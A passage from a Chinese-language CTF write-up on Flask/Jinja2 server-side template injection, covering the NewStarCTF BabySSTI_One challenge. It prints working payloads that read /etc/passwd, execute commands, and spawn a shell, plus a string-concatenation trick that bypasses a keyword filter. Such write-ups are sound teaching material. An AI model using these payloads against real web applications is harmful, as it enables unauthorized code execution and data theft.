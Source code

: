 拿到flag: `n1book{eddb84d49a421a82}`

其他常用的 `__builtins__` 利用:
```python
# 读取系统文件
{{...['open']("/etc/passwd").read()}}

# 执行命令（需导入 os）
{{...['__import__']('os').system('id')}}

# 获取交互 shell
{{...['eval']("__import__('os').popen('/bin/sh').read()")}}
```

#### [NewStarCTF 公开赛赛道]BabySSTI_One

尝试一下, 存在 SSTI

![3-1.png](3-1.png)

源代码提示, 此处是 Flask SSTI, 但是输入 `''.__class__` 发现被过滤了:

![3-2.png](3-2.png)

进一步尝试别的 payload (`''["__cla"+"ss__"]`, `{{config}}`, `{{self}}`, `''.__name__`), 均返回空:

说明服务端可能运行在一个受限的沙箱内; 经过测试, 可能对 `'class'` `'base'` `'mro'` `'init'`做了过滤。

考虑字符串拼接, 经过尝试, `__getattribute__()` 没有被过滤:

处理一下这个 payload: 
```python
# self.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()
self.__getattribute__('__i'+'nit__').__globals__.__builtins__['__import__']('os').popen('ls').read()
```

![3-3.png](3-3.png)
